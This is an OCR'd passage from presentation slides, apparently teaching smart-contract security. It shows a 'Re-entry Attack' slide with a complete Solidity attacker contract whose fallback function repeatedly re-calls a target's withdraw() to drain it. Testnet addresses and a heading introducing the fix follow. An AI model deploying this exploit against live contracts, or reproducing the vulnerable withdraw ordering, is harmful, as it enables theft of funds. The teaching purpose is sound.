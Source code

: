```javascript
            revert();
        }
        balances[msg.sender] = 0;
    }
}
```

---

# Re-entry Attack

```javascript
contract CrowdFundingAttacker{
    address public targetAddress;
    uint8 i = 0;
    
    function CrowdFundingAttacker(address _targetAddress) public{
       targetAddress=_targetAddress;
    }
    
    function deposit() public payable returns (bool){
        return targetAddress.call.value(msg.value)(bytes4(sha3("deposit()")));
    }
    
    function() public payable{
        while(i < 10){
            i++;
            if(targetAddress.call(bytes4(sha3("withdraw()"))) == false) {
                revert();
            }
          
        }
    }
    
    function withdraw() public returns (bool){
        if( targetAddress.call(bytes4(sha3("withdraw()"))) == false ) {
             revert();
        }
        return true;
   } 
   
}
```

???
attacker: https://ropsten.etherscan.io/address/0xf45960b6a4f97b782698c4a71057bb40fc806307
https://ropsten.etherscan.io/address/0xae88c088c69b6e1e5bf3d13fdec28ff6644c7792

---

# Fix: Get Your Ordering Correct
